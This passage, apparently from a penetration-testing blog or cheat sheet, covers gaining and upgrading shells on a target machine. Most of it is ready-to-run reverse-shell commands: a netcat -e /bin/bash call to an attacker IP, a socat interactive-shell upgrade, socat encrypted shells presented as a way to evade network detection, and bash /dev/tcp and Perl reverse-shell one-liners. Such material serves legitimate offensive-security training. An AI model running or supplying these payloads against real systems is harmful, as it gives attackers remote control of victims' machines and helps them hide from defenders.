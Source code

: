    ```bash
   nc <attacker-ip> 4444 -e /bin/bash
   ```

2. **Upgrade to an Interactive Shell with Socat**:

   On the attacker's machine, after receiving the non-interactive shell, execute the following command to set up a more stable interactive shell:

   ```bash
   socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
   ```

   This command creates an interactive bash session with enhanced stability and proper handling of terminal input/output.

By combining Netcat and Socat, you can establish an initial connection and then upgrade it to a fully interactive and stable shell, allowing for more effective control over the target system.

---

## Socat Encrypted Shells

Socat supports encrypted connections, enhancing security. This is useful for evading network detection systems.

### Setting Up an Encrypted Listener

```bash
socat OPENSSL-LISTEN:4444,reuseaddr,fork,cert=server.pem,verify=0 EXEC:/bin/bash
```

### Connecting to an Encrypted Listener

```bash
socat OPENSSL:<target-ip>:4444,verify=0 EXEC:/bin/bash
```

---

### Common Shell Payloads

Common shell payloads are used in various exploitation scenarios to gain control over a target system. These payloads can be generated using tools like Metasploit and msfvenom. For a detailed guide on generating and using shell payloads with Metasploit, refer to [this comprehensive guide](https://gnar1zard.github.io/gnar_blog/2024/06/25/Pentesting-Metasploit/).

### Examples

- **Bash Reverse Shell**:

  ```bash
  bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
  ```

- **Perl Reverse Shell**:

  ```perl
  perl -e 'use Socket;$i="<attacker-ip>";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```

---
